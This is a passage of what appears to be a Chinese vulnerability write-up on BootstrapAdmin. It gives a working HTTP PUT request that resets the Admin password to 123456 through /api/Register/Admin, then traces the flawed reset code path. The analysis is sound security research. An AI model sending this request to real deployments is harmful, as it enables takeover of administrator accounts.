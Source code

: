 ```python
PUT /api/Register/Admin HTTP/1.1
Host: localhost:50852
Content-Length: 21
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:50852
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:50852/Account/Login?AppId=BA
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: .AspNetCore.Antiforgery.a2HlFfgw_P8=CfDJ8Gs8oXs1rxRKjEnWjDIDxNbJjshI1qzQp5CuMqbXtCMkdL2neNZavWmBhuthWZKWz33fafGSx248iRpmB60ypJVZklddoKZx_r5WUEYb6NlFnr8NezIO2vRdhVD2dAcFCSwZJTQffPO8V4Ua3hJC-90
Connection: close

{"Password":"123456"}
```

这个时候我们再使用`Admin/123456`即可登录管理员权限账户。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-834ab13ffe50db4e19c59ecb283b33c05a82a20c.png)

### 漏洞定位

我们先关注到`http://localhost:50852/api/Register/Admin`这个路径的处理函数  
`BootstrapAdmin\src\mvc\admin\Bootstrap.Admin\Controllers\Api\RegisterController.cs`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-aa55c648af8975ad5553c66a030f5532cc218c6c.png)

进入到`UserHelper.ResetPassword`函数  
`BootstrapAdmin\src\mvc\admin\Bootstrap.DataAccess\Helper\UserHelper.cs`  
这里进行了2个判断：

1. 对用户输入的用户名和密码进行标准检查
2. 判断是否是演示系统，如果是演示系统就不允许修改`Admin`和`User`这两个账户。这里不是演示系统。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-251e58943fbfbf6be6ec39357e25e61f91af61ce.png)

通过了两个判断后，进入到`ResetPassword`函数。  
`BootstrapAdmin\src\mvc\admin\Bootstrap.DataAccess\User.cs`  
这里先有一个根据传入的用户名判断是否有提交重置密码请求，这里必须要有重置密码请求记录。  
通过了这个判断之后，就是进行`db.Update`操作了。

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-cdbcfa533f68686ed90402bc88b1663e82cfd5bc.png)
